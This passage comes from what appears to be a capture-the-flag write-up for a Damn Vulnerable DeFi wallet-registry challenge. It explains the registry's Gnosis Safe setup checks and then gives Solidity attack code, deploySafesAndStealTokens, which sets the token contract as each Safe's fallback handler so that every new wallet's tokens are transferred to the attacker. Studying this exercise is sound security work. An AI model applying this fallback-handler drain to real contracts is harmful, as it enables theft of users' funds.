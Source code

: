 + `payment` is the value that should be payed in case a gas token is used. We'll use ETH, so this should be 0.
+ `paymentReceiver` is the address that will receive the payment. This should be the null address so that it's set to `tx.origin`.

5. The `_threshold` parameter in the `setup()` call needs to be 1.

```cs
require(GnosisSafe(walletAddress).getThreshold() == MAX_THRESHOLD, "Invalid threshold");
```

As specified in 4.

6. The `_owners` array must be of length 1, so each multisig wallet must have at most 1 owner.

```cs
require(GnosisSafe(walletAddress).getOwners().length == MAX_OWNERS, "Invalid number of owners");
```

As specified in 4.

7. The owner set per multisig must be in the list of beneficiaries.

```cs
require(beneficiaries[walletOwner], "Owner is not registered as beneficiary");
```

After all requirements pass, the DVT tokens will be transferred to the created Gnosis Safe multisig. Each multisig will receive 10 DVT tokens.

To steall all the tokens in one transaction, we must create a function in the attacker contract that will perform the following workflow:

1. Create the multisig for user `user`.
    + The creation will assign the `fallbackHandler` as the DVT token contract address
    + The creation will assign the `callback` proxy creation callback interface to the WalletFactory contract

2. Make a call to the newly created Gnosis Safe multisig for user `user` with function selector + calldata performing a token transfer. The function selector specified must be that of the `transfer()` function of the DVT token contract. The calldata should be the receiver of those tokens (the attacker address) and the amount should be the entire balance that the WalletRegistry will send to the newly created multisig (10 DVT tokens). This call will effectively transfer the 10 DVT tokens in that Safe to the attacker's address.

I decided to pass the calldata for the `setup()` and `transfer()` functions as a parameter to the function so that the contract is more readable:

```cs
function deploySafesAndStealTokens(bytes[] calldata maliciousSetupCalls, bytes calldata maliciousTransferCall) external {
    // loop over the malicious calls, creating a new proxy per loop
    // which will allow us to then call transfer after the token contract
    // is set up as a fallback contract for the wallet
    for (uint256 i = 0; i < maliciousSetupCalls.length; i++) {
        GnosisSafeProxy newGnosisSafeWallet = gspf.createProxyWithCallback(
            singleton,
            maliciousSetupCalls[i],
            0,
            IProxyCreationCallback(registry)
        );
        
        // transfer tokens to tx.origin, the attacker
        (bool success,) = address(newGnosisSafeWallet).call(maliciousTransferCall);

        // make sure the transfer is made
        require(success, "tokens stealing failed");
    }
}
```
